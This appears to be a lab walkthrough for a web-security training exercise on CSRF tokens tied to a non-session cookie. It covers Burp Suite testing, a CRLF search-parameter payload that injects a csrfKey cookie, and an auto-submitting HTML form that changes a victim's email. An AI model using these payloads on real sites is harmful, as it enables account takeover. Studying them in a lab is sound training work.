

---

**Difficulty:** 🟡 Practitioner

**Goal:**

- 🔍 Identify CSRF with token tied to separate cookie
- 🎯 Understand CSRF key cookie validation mechanism
- 🔄 Test token/cookie independence from session
- 🔎 Discover cookie injection via header injection
- 💉 Exploit search function CRLF injection
- 🍪 Inject attacker's CSRF key cookie into victim's browser
- 📝 Craft CSRF with matching token and injected cookie
- 🚀 Use exploit server with cookie injection
- 🎪 Auto-submit after cookie injection completes
- 🚨 Bypass CSRF protection via cookie manipulation
- 🎉 Complete lab successfully

---

## 🧠 **Concept Recap**

> **CSRF where token is tied to non-session cookie** is a sophisticated vulnerability where the application validates CSRF tokens against a separate cookie (CSRF key) rather than the session cookie. While tokens and cookies must match each other, neither is validated against the user's session. This allows attackers to inject their own CSRF key cookie into the victim's browser (via header injection or other techniques), then use their matching CSRF token in the attack. The server validates that token matches cookie (✓), but never checks if they belong to the victim (✗).

### 📊 **The Vulnerability**

**Normal CSRF Protection (Secure):**

```HTTP
User changes email (secure implementation):
         ↓
POST /my-account/change-email HTTP/2
Cookie: session=ALICE_SESSION_ABC123
Content-Type: application/x-www-form-urlencoded

email=alice@example.com&csrf=TOKEN_XYZ
         ↓
Server validation:
  1. Extract session: ALICE_SESSION_ABC123
  2. Look up token for session: TOKEN_XYZ
  3. Compare with request token: TOKEN_XYZ
  4. Match? YES ✓
  5. Session binding verified ✓
         ↓
Email changed successfully! ✓
Token belongs to Alice's session! 🛡️
```

**This Lab's Implementation (Flawed):**

```HTTP
User changes email (vulnerable implementation):
         ↓
POST /my-account/change-email HTTP/2
Cookie: session=ALICE_SESSION; csrfKey=KEY_ABC
Content-Type: application/x-www-form-urlencoded

email=alice@example.com&csrf=TOKEN_123
         ↓
Server validation:
  1. Extract csrfKey cookie: KEY_ABC
  2. Generate expected token from KEY_ABC
  3. Expected token: TOKEN_123
  4. Request token: TOKEN_123
  5. Match? YES ✓
  6. ⚠️ Never checked: Does csrfKey belong to session?
         ↓
Token validated against csrfKey ✓
But NOT against session! ❌
Email changed! 💥
```

**Attack via Cookie Injection:**

```HTTP
Step 1: Attacker injects their csrfKey into victim's browser
         ↓
GET /?search=test%0d%0aSet-Cookie:%20csrfKey=ATTACKER_KEY HTTP/2
Host: vulnerable.com
         ↓
Server responds:
HTTP/2 200 OK
Set-Cookie: csrfKey=ATTACKER_KEY; SameSite=None
         ↓
Victim's browser now has attacker's csrfKey! 💣

Step 2: Attacker sends CSRF with matching token
         ↓
POST /my-account/change-email HTTP/2
Cookie: session=VICTIM_SESSION; csrfKey=ATTACKER_KEY
                                        ↑
                            Injected by attacker!
Content-Type: application/x-www-form-urlencoded

email=attacker@evil.com&csrf=ATTACKER_TOKEN
                              ↑
                    Matches ATTACKER_KEY!
         ↓
Server validation:
  1. Extract csrfKey: ATTACKER_KEY
  2. Generate token from ATTACKER_KEY
  3. Expected: ATTACKER_TOKEN
  4. Received: ATTACKER_TOKEN
  5. Match? YES ✓
  6. ⚠️ Never checked: Does csrfKey belong to VICTIM_SESSION?
         ↓
Validation passes! ✓
Email changed to attacker@evil.com! 💥
         ↓
CSRF protection bypassed! 🎯
```

**Key Insight:**

```r
Why this vulnerability exists:

1. Double Submit Cookie Pattern (Broken Implementation):
   
   Intended design:
   └── Client-side: Token stored in cookie
       └── Server validates: cookie token == request token
           └── Prevents CSRF since attacker can't read cookie
   
   Problem:
   └── If attacker can SET the cookie (cookie injection)
       └── Can inject their own known value
           └── Then use matching token in CSRF!
               └── Validation passes! 💣

2. The fatal combination:
   
   Flaw A: Token tied to csrfKey cookie (not session)
   └── Server: "If csrfKey cookie == csrf parameter, accept"
       └── Doesn't check: "Does csrfKey belong to this user?"
   
   Flaw B: Cookie injection vulnerability
   └── Search function reflects input in Set-Cookie header
       └── Allows: Set-Cookie: csrfKey=ATTACKER_VALUE
   
   Combined:
   └── Inject attacker's csrfKey → Use matching token → Success! 💥

3. Cookie injection via CRLF:
   
   Vulnerable search function:
   GET /?search=SEARCH_TERM
   
   Response:
   HTTP/2 200 OK
   Set-Cookie: lastSearch=SEARCH_TERM
   
   Attack:
   GET /?search=test%0d%0aSet-Cookie:%20csrfKey=EVIL
                    ↑
            CRLF injection (\r\n)
   
   Response becomes:
   HTTP/2 200 OK
   Set-Cookie: lastSearch=test
   Set-Cookie: csrfKey=EVIL
               ↑
       New header injected! 💣

4. Why token/cookie matching isn't enough:
   
   Developer logic:
   └── "Token in cookie == Token in request"
       └── "Must be legitimate request!" ✓
   
   Reality:
   └── Attacker controls both cookie AND request
       └── Sets cookie to known value
           └── Uses same value in request
               └── Validation passes but it's still forged! 💥

5. Session independence:
   
   Secure:
   ├── session cookie: Identifies user
   ├── csrf token: Tied to session
   └── Validation: token belongs to session ✓
   
   Vulnerable:
   ├── session cookie: Identifies user
   ├── csrfKey cookie: Separate from session! ❌
   ├── csrf parameter: Matches csrfKey
   └── Validation: token matches csrfKey ✓
       └── But: csrfKey not tied to session! ❌

6. Attack flow visualization:
   
   Normal user:
   ├── Visits site → Gets csrfKey=USER_KEY
   ├── Form loads → Includes csrf=USER_TOKEN
   └── Submit → Validates USER_KEY == USER_TOKEN ✓
   
   Attacker:
   ├── Knows own csrfKey=ATK_KEY and csrf=ATK_TOKEN
   ├── Injects csrfKey=ATK_KEY into victim's browser
   ├── Sends CSRF with csrf=ATK_TOKEN
   └── Server validates: ATK_KEY == ATK_TOKEN ✓
       └── Never checks: Does ATK_KEY belong to victim? ❌

7. Why this is worse than previous labs:
   
   Previous lab:
   └── Token not tied to session
       └── Use own token in CSRF ✓
   
   This lab:
   └── Token tied to csrfKey cookie
       └── Must ALSO inject csrfKey cookie! 
           └── Requires additional vulnerability (header injection)
               └── More complex but also more realistic! 🎯

8. Real-world applicability:
   
   Cookie injection vectors:
   ├── CRLF injection (this lab)
   ├── XSS (JavaScript sets cookie)
   ├── Subdomain takeover
   ├── Related domain control
   └── DNS rebinding attacks
   
   Any of these + non-session CSRF cookie = Bypass! 💣

The vulnerability chain:
└── CSRF token validated against csrfKey cookie ✓
    └── csrfKey NOT tied to session ❌
        └── Search function has header injection ✓
            └── Attacker injects csrfKey cookie
                └── Attacker uses matching CSRF token
                    └── Validation: cookie == token ✓
                        └── Never checks session ownership! ❌
                            └── CSRF succeeds! 💥

Developer's mistake:
└── Implemented "double submit cookie" pattern
    └── Token in cookie + token in request must match
        └── Forgot: Cookie can be injected by attacker!
            └── Also forgot: Must tie to session!
                └── Both mistakes create vulnerability! 💣
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab**

1. 🌐 Click **"Access the lab"**
2. 👀 Observe the lab page
3. 📝 Note TWO sets of credentials:
    - Account 1: `wiener:peter`
    - Account 2: `carlos:montoya`

**Lab description:**

```
Lab: CSRF where token is tied to non-session cookie

Vulnerability:
└── CSRF tokens tied to csrfKey cookie
    └── Not integrated with session handling
        └── Can be bypassed via cookie injection! 💣

Goal:
└── Use exploit server to change victim's email
    └── Must inject csrfKey cookie first
        └── Then submit CSRF with matching token! 🎯

Key insights:
├── Two cookies: session + csrfKey
├── Token validated against csrfKey (not session)
├── Search function has vulnerability
└── Can inject cookies via header injection!
```

---

### 🔐 **Step 2 — Login as wiener**

1. 🖱️ Click **"My account"**
2. 📝 Enter credentials:
    - Username: `wiener`
    - Password: `peter`
3. 🚀 Click **"Login"**

**After login:**

```
┌────────────────────────────────────┐
│ My Account                         │
├────────────────────────────────────┤
│                                    │
│ Username: wiener                   │
│                                    │
│ Email: wiener@normal-user.net      │
│                                    │
│ Update email:                      │
│ [____________________________]     │
│                                    │
│ [Update email]                     │
│                                    │
└────────────────────────────────────┘
```

---

### 🔍 **Step 3 — Setup Burp Suite**

1. 🌐 Open Burp Suite
2. ⚙️ Configure proxy
3. 🔄 Turn **Intercept ON**

---

### 📨 **Step 4 — Capture Email Change Request**

1. ✏️ Enter test email: `test-wiener@example.com`
2. 🚀 Click **"Update email"**
3. 👀 Burp intercepts the request

**Intercepted request:**

```HTTP
POST /my-account/change-email HTTP/2
Host: 0a5b006f048f3a7fc0cf6dc400ae00d7.web-security-academy.net
Cookie: session=wiener_session_abc; csrfKey=KEY_wiener_123
User-Agent: Mozilla/5.0...
Content-Type: application/x-www-form-urlencoded
Content-Length: 78

email=test-wiener%40example.com&csrf=TOKEN_abc_xyz
```

**Critical observations:**

```HTTP
TWO cookies present:

1. session=wiener_session_abc
   └── Standard session cookie
   └── Identifies wiener's session

2. csrfKey=KEY_wiener_123
   └── Separate CSRF key cookie! ⚠️
   └── NOT the session cookie!
   └── Token validation uses THIS cookie!

Request body:
└── csrf=TOKEN_abc_xyz
    └── This token should match csrfKey cookie
        └── Question: Is it tied to session? 🤔

Key discovery:
└── Two separate cookies for authentication and CSRF
    └── This is unusual and potentially vulnerable!
        └── Need to test independence! 💡
```

---

### 🔄 **Step 5 — Send to Repeater**

1. 🖱️ **Right-click** on request
2. 📋 Select **"Send to Repeater"**
3. 🔄 Click **"Forward"**
4. 🔄 Turn **Intercept OFF**
5. 📑 Switch to **"Repeater"** tab

---

### 🧪 **Step 6 — Test Session Cookie Change**

**Test what happens when changing session:**

1. ✏️ Modify session cookie value:

```HTTP
BEFORE:
Cookie: session=wiener_session_abc; csrfKey=KEY_wiener_123

AFTER:
Cookie: session=INVALID_SESSION; csrfKey=KEY_wiener_123
```

2. 🚀 Click **"Send"**
3. 👀 Observe response

**Expected response:**

```HTTP
HTTP/2 302 Found
Location: /login

Logged out - session invalid
```

**Observation:**

```
✅ Changing session cookie logs you out
✅ Session cookie controls authentication
✅ This is normal and expected
```

---

### 🧪 **Step 7 — Test csrfKey Cookie Change**

**Now test changing csrfKey:**

1. ✏️ Restore session, modify csrfKey:

```HTTP
BEFORE:
Cookie: session=wiener_session_abc; csrfKey=KEY_wiener_123

email=test@test.com&csrf=TOKEN_abc_xyz

AFTER:
Cookie: session=wiener_session_abc; csrfKey=INVALID_KEY_999

email=test@test.com&csrf=TOKEN_abc_xyz
```

2. 🚀 Click **"Send"**
3. 👀 Observe response

**Expected response:**

```HTTP
HTTP/2 400 Bad Request

Invalid CSRF token
```

**Critical discovery:**

```
Key finding:
├── Changing session → Logged out (rejects request)
├── Changing csrfKey → CSRF token rejected
└── csrfKey cookie DIFFERENT from session!

This suggests:
└── Token validated against csrfKey cookie
    └── NOT against session cookie!
        └── Potential vulnerability! 💡

Questions:
└── Can we use csrfKey from another user?
    └── Can we inject our own csrfKey?
        └── Need to test! 🎯
```

---

### 👤 **Step 8 — Open Incognito Window**

**Test with second account:**

1. 🔓 Open private/incognito browser window
2. 🌐 Navigate to lab URL
3. 🔐 Login as carlos:
    - Username: `carlos`
    - Password: `montoya`

---

### 📨 **Step 9 — Capture carlos's Email Change**

1. 🔄 Ensure Burp **Intercept is ON**
2. ✏️ Enter test email in carlos's account
3. 🚀 Click **"Update email"**
4. 👀 Burp intercepts carlos's request

**Intercepted request:**

```HTTP
POST /my-account/change-email HTTP/2
Cookie: session=carlos_session_xyz; csrfKey=KEY_carlos_456
Content-Type: application/x-www-form-urlencoded

email=test-carlos%40example.com&csrf=TOKEN_def_uvw
```

**Observations:**

```HTTP
Carlos's cookies:
├── session=carlos_session_xyz (different from wiener)
└── csrfKey=KEY_carlos_456 (different from wiener)

Carlos's token:
└── csrf=TOKEN_def_uvw (different from wiener)

Everything is different ✓
Now let's test mixing them! 💡
```

---

### 🔄 **Step 10 — Send carlos's Request to Repeater**

1. 🖱️ **Right-click** on carlos's request
2. 📋 Select **"Send to Repeater"**
3. 🔄 Click **"Forward"**

**Now you have TWO tabs in Repeater:**

```
Tab 1: wiener's request
├── session=wiener_session_abc
├── csrfKey=KEY_wiener_123
└── csrf=TOKEN_abc_xyz

Tab 2: carlos's request
├── session=carlos_session_xyz
├── csrfKey=KEY_carlos_456
└── csrf=TOKEN_def_uvw
```

---

### 💣 **Step 11 — Test Cross-User Token/Cookie**

**Critical test: Use wiener's csrfKey + token for carlos's session!**

1. 📝 In carlos's request tab, modify:

```HTTP
BEFORE (carlos's original):
Cookie: session=carlos_session_xyz; csrfKey=KEY_carlos_456

email=test@test.com&csrf=TOKEN_def_uvw

         ↓ Replace csrfKey and token ↓

AFTER (mixed):
Cookie: session=carlos_session_xyz; csrfKey=KEY_wiener_123
                ↑                            ↑
        Carlos's session            Wiener's csrfKey!

email=test@test.com&csrf=TOKEN_abc_xyz
                          ↑
                  Wiener's token!
```

**Full modified request:**

```HTTP
POST /my-account/change-email HTTP/2
Cookie: session=carlos_session_xyz; csrfKey=KEY_wiener_123
        ↑ Carlos's session          ↑ Wiener's csrfKey

email=test@test.com&csrf=TOKEN_abc_xyz
                          ↑ Wiener's token
```

2. 🚀 Click **"Send"**
3. 👀 Observe response carefully

**Expected response:**

```HTTP
HTTP/2 302 Found
Location: /my-account

Email updated successfully!
```

**VULNERABILITY CONFIRMED!**

```
🎯 CRITICAL DISCOVERY:

✅ Request ACCEPTED!
✅ Carlos's email changed!
✅ Using wiener's csrfKey + token!
❌ Server didn't check cookie ownership!

The flaw:
└── Server validated:
    ├── csrfKey cookie: KEY_wiener_123
    ├── csrf parameter: TOKEN_abc_xyz
    ├── Do they match? YES ✓
    └── Accept request! ✓
    
    └── Server DIDN'T validate:
        ├── Does csrfKey belong to carlos's session? ❌
        └── SKIPPED this critical check!

What this means:
└── csrfKey cookie is independent of session! 💣
    ├── Any csrfKey + matching token works
    ├── Regardless of whose session it is!
    └── If we can inject csrfKey → Full bypass! 🎯

Attack path:
└── Need to inject our csrfKey into victim's browser
    └── Then use our matching token in CSRF
        └── How to inject cookies? 💡
            └── Look for cookie injection vulnerability!
```

---

### 🔎 **Step 12 — Explore Search Functionality**

**Look for cookie injection vector:**

1. 🔙 Go back to main browser (wiener logged in)
2. 🔍 Find the search box on the site
3. ✏️ Enter test search: `test`
4. 🚀 Submit search

**Search request in Burp HTTP History:**

```HTTP
GET /?search=test HTTP/2
Host: 0a5b006f048f3a7fc0cf6dc400ae00d7.web-security-academy.net
Cookie: session=wiener_session_abc; csrfKey=KEY_wiener_123
```

---

### 📨 **Step 13 — Capture and Analyze Search Response**

1. 🔍 Find search request in **HTTP History**
2. 👀 View the response

**Response:**

```HTTP
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: lastSearch=test; Secure; HttpOnly

<!DOCTYPE html>
<html>
...
```

**CRITICAL FINDING:**

```HTTP
Set-Cookie: lastSearch=test
                       ↑
            User input reflected in cookie!

This is potentially vulnerable to:
└── Header injection via CRLF
    └── Can we inject newlines?
        └── To add our own Set-Cookie header? 💡
```

---

### 🔄 **Step 14 — Send Search to Repeater**

1. 🖱️ **Right-click** on search request
2. 📋 Select **"Send to Repeater"**
3. 📑 Switch to Repeater

---

### 💉 **Step 15 — Test CRLF Injection**

**Attempt to inject Set-Cookie header:**

1. ✏️ Modify search parameter with CRLF:

```HTTP
BEFORE:
GET /?search=test HTTP/2

AFTER:
GET /?search=test%0d%0aSet-Cookie:%20injected=value HTTP/2
              ↑
        %0d%0a = \r\n (CRLF - Carriage Return Line Feed)
```

**Understanding the payload:**

```
URL encoding:
├── %0d = \r (Carriage Return)
├── %0a = \n (Line Feed)
└── %20 = space

Decoded:
search=test\r\nSet-Cookie: injected=value

Intent:
└── Break out of lastSearch cookie line
    └── Start new Set-Cookie header
        └── Inject arbitrary cookie! 💣
```

2. 🚀 Click **"Send"**
3. 👀 View response headers

**Expected response:**

```HTTP
HTTP/2 200 OK
Set-Cookie: lastSearch=test
Set-Cookie: injected=value
            ↑
    Successfully injected! 💥
```

**HEADER INJECTION CONFIRMED!**

```
✅ CRLF injection works!
✅ Can inject Set-Cookie headers!
✅ Can set arbitrary cookies!

Attack plan:
└── Inject our csrfKey cookie
    └── Victim's browser will store it
        └── Then use matching token in CSRF! 🎯
```

---

### 🎫 **Step 16 — Note wiener's csrfKey**

**Extract the csrfKey value:**

1. 🔍 Go back to wiener's email change request
2. 📝 Copy csrfKey cookie value

**Example:**

```
Wiener's csrfKey: KEY_wiener_123abc

This is the value we'll inject into victim! ✓
```

---

### 🧪 **Step 17 — Test csrfKey Injection**

**Craft cookie injection URL:**

1. ✏️ Build injection URL:

```
/?search=test%0d%0aSet-Cookie:%20csrfKey=KEY_wiener_123abc
```

**With SameSite=None attribute:**

```
/?search=test%0d%0aSet-Cookie:%20csrfKey=KEY_wiener_123abc%3b%20SameSite=None
```

**Understanding the payload:**

```HTTP
Decoded URL:
/?search=test\r\n
Set-Cookie: csrfKey=KEY_wiener_123abc; SameSite=None

Parts:
├── test\r\n → Completes lastSearch cookie
├── Set-Cookie: → New header
├── csrfKey=KEY_wiener_123abc → Our cookie!
└── SameSite=None → Allows cross-site usage! ✓

Response will be:
Set-Cookie: lastSearch=test
Set-Cookie: csrfKey=KEY_wiener_123abc; SameSite=None
            ↑
    This sets our csrfKey in victim's browser! 💣
```

2. 🔍 Test in Repeater
3. ✅ Verify Set-Cookie header appears

---

### 💻 **Step 18 — Create CSRF Exploit**

**Base HTML from email change request:**

```html
<form method="POST" action="https://0a5b006f048f3a7fc0cf6dc400ae00d7.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="hacker@evil.com">
    <input type="hidden" name="csrf" value="TOKEN_abc_xyz">
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```

**Problem with this:**

```
Issue:
└── Form submits immediately
    └── But victim doesn't have our csrfKey yet!
        └── Need to inject cookie FIRST!
            └── THEN submit form!

Solution:
└── Remove auto-submit script
    └── Add IMG tag to inject cookie
        └── Use onerror to submit after injection! ✓
```

---

### 🎪 **Step 19 — Add Cookie Injection**

**Modified exploit with cookie injection:**

```html
<form method="POST" action="https://0a5b006f048f3a7fc0cf6dc400ae00d7.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="hacker@evil.com">
    <input type="hidden" name="csrf" value="TOKEN_abc_xyz">
</form>


```

**Understanding the exploit:**

```html
<form method="POST" action="...">
    Standard CSRF form with:
    ├── email: attacker's email
    └── csrf: wiener's token (matches wiener's csrfKey)
</form>


IMG tag breakdown:
├── src="..." → Browser loads this URL
│   └── Contains CRLF injection
│       └── Injects csrfKey cookie
│
└── onerror="..." → Fires when image fails to load
    └── Search endpoint returns HTML (not image)
        └── Triggers onerror
            └── Submits form! ✓

Execution sequence:
1. Exploit page loads
2. IMG src= loads, injecting cookie
3. Set-Cookie: csrfKey=KEY_wiener_123abc
4. Browser stores cookie
5. Image load fails (HTML response)
6. onerror event fires
7. Form submits with:
   ├── Cookie: session=VICTIM; csrfKey=KEY_wiener_123abc
   │            ↑ Victim's    ↑ Injected by attacker!
   └── csrf=TOKEN_abc_xyz
        ↑ Matches KEY_wiener_123abc!
8. Server validates: csrfKey == csrf? YES ✓
9. Email changed! 💥
```

---

### 🌐 **Step 20 — Access Exploit Server**

1. 🔙 Go back to lab page
2. 🖱️ Click **"Go to exploit server"**

---

### 📝 **Step 21 — Paste Complete Exploit**

**Full exploit code:**

```html
<form method="POST" action="https://0a5b006f048f3a7fc0cf6dc400ae00d7.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@attacker.com">
    <input type="hidden" name="csrf" value="TOKEN_abc_xyz">
</form>


```

**Replace:**

- Lab ID with YOUR lab ID
- `TOKEN_abc_xyz` with wiener's actual csrf token
- `KEY_wiener_123abc` with wiener's actual csrfKey
- `pwned@attacker.com` with your chosen email

---

### 💾 **Step 22 — Store and Test Exploit**

1. 💾 Click **"Store"**
2. 👁️ Click **"View exploit"**

**What happens:**

```HTTP
Exploit page loads
         ↓
IMG tag executes
         ↓
Loads: /?search=test%0d%0aSet-Cookie:...
         ↓
Server responds with:
  Set-Cookie: csrfKey=KEY_wiener_123abc; SameSite=None
         ↓
Browser stores csrfKey cookie
         ↓
IMG fails to load (HTML response)
         ↓
onerror event fires
         ↓
Form submits with:
  Cookie: session=YOUR_SESSION; csrfKey=KEY_wiener_123abc
  csrf=TOKEN_abc_xyz
         ↓
Email changed! ✓
```

**Verify in My Account:**

```
Email should be changed to pwned@attacker.com ✓
Exploit works on yourself! ✓
```

---

### 🔄 **Step 23 — Update for Victim**

**Get fresh token and csrfKey:**

1. 🔄 Refresh wiener's My Account page
2. 🔍 View page source
3. 📝 Extract fresh csrf token and csrfKey

**Update exploit:**

```html
<form method="POST" action="https://0a5b006f048f3a7fc0cf6dc400ae00d7.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="final@evil.com">
    <input type="hidden" name="csrf" value="FRESH_TOKEN_HERE">
</form>


```

4. 💾 Click **"Store"**

---

### 🎯 **Step 24 — Deliver Exploit to Victim**

1. 🚀 Click **"Deliver exploit to victim"**
2. ⏳ Wait for confirmation

**Attack execution:**

```HTTP
Lab simulation:
         ↓
1. Victim visits exploit URL
   
2. IMG tag loads injection URL:
   GET /?search=test%0d%0aSet-Cookie: csrfKey=...
   
3. Server responds:
   HTTP/2 200 OK
   Set-Cookie: csrfKey=KEY_wiener_123abc; SameSite=None
   
4. Victim's browser stores cookie:
   csrfKey=KEY_wiener_123abc
   
5. IMG fails to load (HTML response)
   
6. onerror fires → Form submits:
   POST /my-account/change-email
   Cookie: session=VICTIM_SESSION; csrfKey=KEY_wiener_123abc
                                            ↑ Injected!
   email=final@evil.com
   csrf=TOKEN_abc_xyz
        ↑ Matches injected csrfKey!
   
7. Server validates:
   ├── Extract csrfKey: KEY_wiener_123abc
   ├── Generate expected token from csrfKey
   ├── Expected: TOKEN_abc_xyz
   ├── Received: TOKEN_abc_xyz
   ├── Match? YES ✓
   └── Accept request! ✓
   
   ⚠️ Never checked:
   └── Does csrfKey belong to victim? ❌
   
8. Victim's email changed! 💥
   
9. Lab validation succeeds → Lab solved! 🎉
```

---

### ✅ **Step 25 — Lab Completion**

**Success banner:**

```
┌─────────────────────────────────────┐
│  ✅ Congratulations!                │
│                                     │
│  You successfully exploited CSRF    │
│  via cookie injection and           │
│  non-session token validation.      │
│                                     │
│  Lab: CSRF where token is tied      │
│       to non-session cookie         │
│  Status: SOLVED ✓                   │
└─────────────────────────────────────┘
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Login as wiener
         → Get wiener's csrfKey and csrf token
         ↓
Step 2: Capture email change request
         → POST with two cookies:
           ├── session=wiener_session
           └── csrfKey=KEY_wiener
         → Body: csrf=TOKEN_wiener
         ↓
Step 3: Test cookie independence
         → Change session → Logs out ✓
         → Change csrfKey → Token rejected ✓
         ↓
Step 4: Login as carlos (incognito)
         → Get carlos's credentials
         ↓
Step 5: Capture carlos's request
         → session=carlos_session
         → csrfKey=KEY_carlos
         → csrf=TOKEN_carlos
         ↓
Step 6: Test cross-user tokens
         → Use carlos's session
         → With wiener's csrfKey + token
         → ACCEPTED! 💥
         ↓
Step 7: VULNERABILITY CONFIRMED
         → csrfKey not tied to session ❌
         → Need cookie injection to exploit
         ↓
Step 8: Explore search function
         → Find search feature
         → Test search parameter
         ↓
Step 9: Analyze search response
         → Set-Cookie: lastSearch=INPUT
         → Input reflected in cookie! 💡
         ↓
Step 10: Test CRLF injection
         → /?search=test%0d%0aSet-Cookie: test=value
         → WORKS! Header injection confirmed! ✓
         ↓
Step 11: Craft cookie injection payload
         → /?search=test%0d%0aSet-Cookie: csrfKey=KEY_wiener
         → Add SameSite=None
         → Test successful injection
         ↓
Step 12: Create CSRF exploit
         → Form with wiener's csrf token
         → IMG tag with cookie injection
         → onerror submits form after injection
         ↓
Step 13: Upload to exploit server
         → Store exploit
         ↓
Step 14: Test on yourself
         → IMG injects csrfKey
         → Form submits
         → Email changed ✓
         ↓
Step 15: Update with fresh tokens
         → Get new csrf + csrfKey
         → Different email for victim
         ↓
Step 16: Deliver to victim
         → Cookie injected via CRLF
         → CSRF submitted with matching token
         → Email changed! 💥
         ↓
Step 17: Lab solved! 🎉
```

---

## ⚙️ **Understanding the Vulnerability**

### **Double Submit Cookie Pattern (Flawed)**

```r
The vulnerable implementation:

// ❌ VULNERABLE - Token tied to separate cookie

app.post('/change-email', (req, res) => {
    const csrfKey = req.cookies.csrfKey;  // Separate cookie!
    const csrfToken = req.body.csrf;
    
    // Generate expected token from csrfKey
    const expectedToken = generateToken(csrfKey);
    
    // Validate token matches csrfKey
    if (csrfToken !== expectedToken) {
        return res.status(403).send('Invalid CSRF token');
    }
    
    // ⚠️ PROBLEM: Never checks if csrfKey belongs to session!
    
    updateEmail(req.session.userId, req.body.email);
    res.redirect('/my-account');
});

function generateToken(csrfKey) {
    return crypto
        .createHash('sha256')
        .update(csrfKey)
        .digest('hex');
}

The flaw:
├── Token validated against csrfKey cookie ✓
├── csrfKey NOT validated against session ❌
└── Attacker can inject csrfKey → Bypass! 💣

Attack:
1. Attacker knows: csrfKey=ATK_KEY → csrf=ATK_TOKEN
2. Injects: Set-Cookie: csrfKey=ATK_KEY (via CRLF)
3. Sends CSRF: csrf=ATK_TOKEN
4. Validation: ATK_KEY generates ATK_TOKEN? YES ✓
5. Accepted! 💥
```

---

### **CRLF Header Injection**

```HTTP
What is CRLF injection:

Normal HTTP response:
HTTP/2 200 OK
Set-Cookie: lastSearch=test
Content-Type: text/html

Vulnerable code:
app.get('/', (req, res) => {
    const search = req.query.search;
    res.setHeader('Set-Cookie', `lastSearch=${search}`);
    // ⚠️ No sanitization of search value!
});

Attack payload:
/?search=test%0d%0aSet-Cookie:%20csrfKey=ATTACKER_KEY

Decoded:
/?search=test\r\nSet-Cookie: csrfKey=ATTACKER_KEY

Result:
HTTP/2 200 OK
Set-Cookie: lastSearch=test
Set-Cookie: csrfKey=ATTACKER_KEY
            ↑
    Injected header! 💣

How CRLF works:
├── \r\n (CRLF) = End of HTTP header line
├── After CRLF = New header line begins
└── Allows injecting arbitrary headers!

Why it's dangerous:
└── Can inject cookies
    └── Can inject security headers
        └── Can inject response splitting
            └── Full HTTP response control! 💥

URL encoding:
├── %0d = \r (Carriage Return, ASCII 13)
├── %0a = \n (Line Feed, ASCII 10)
└── %20 = space

Prevention:
└── Sanitize all user input in headers
    └── Remove \r and \n characters
        └── Or use framework's safe methods
```

---

### **SameSite Cookie Attribute**

```r
Why SameSite=None is needed:

Default behavior (no SameSite):
└── Cookie sent in same-site requests only
    └── Not sent from exploit server to lab site
        └── Cookie injection fails! ❌

With SameSite=None:
└── Cookie sent in cross-site requests ✓
    └── Sent from exploit server to lab site ✓
        └── Cookie injection succeeds! ✓

Cookie attributes comparison:

SameSite=Strict:
└── Never sent in cross-site requests
    └── Most secure
    └── Can break functionality

SameSite=Lax (modern default):
└── Sent in top-level GET cross-site requests
    └── Not sent in POST or embedded requests
    └── Blocks most CSRF

SameSite=None:
└── Sent in all cross-site requests
    └── Must have Secure flag
    └── Allows cross-site usage

Our exploit needs SameSite=None:
└── Injecting from exploit server (different origin)
    └── To vulnerable site (target origin)
        └── Need cookie to work cross-site! ✓

The injection:
Set-Cookie: csrfKey=VALUE; SameSite=None; Secure

Without SameSite=None:
└── Browser wouldn't send injected cookie
    └── CSRF would fail validation
        └── Attack fails! ❌

With SameSite=None:
└── Browser sends injected cookie
    └── CSRF validation passes
        └── Attack succeeds! ✓
```

---

### **Why Token/Cookie Matching Isn't Enough**

```r
The false sense of security:

Developer logic:
└── "Token in request must match token in cookie"
    └── "Attacker can't read victim's cookies (SOP)"
        └── "So they can't forge matching pair"
            └── "Must be legitimate request!" ✓

Reality:
└── Attacker doesn't READ cookie
    └── Attacker WRITES cookie!
        └── Sets cookie to known value
            └── Uses same value in request
                └── Validation passes but it's forged! 💣

The attack:
1. Attacker knows: COOKIE_X → TOKEN_Y
2. Injects: Set-Cookie: csrfKey=COOKIE_X
3. Sends: csrf=TOKEN_Y
4. Server: COOKIE_X generates TOKEN_Y? YES ✓
5. But: COOKIE_X is attacker's, not victim's! ❌

Comparison:

Secure (session-bound):
├── Session: USER_123
├── Token: Generated for USER_123
└── Validation: Token belongs to USER_123? ✓

Vulnerable (cookie-bound):
├── Cookie: csrfKey=VALUE
├── Token: Matches VALUE
└── Validation: Token matches cookie? ✓
    └── But: Cookie is attacker's! ❌

The missing check:
└── Does csrfKey belong to this session? ❌
    └── This is what makes it vulnerable! 💣
```

---

## 🚀 **Attack Variations**

### **Variation 1: XSS-Based Cookie Injection**

```r
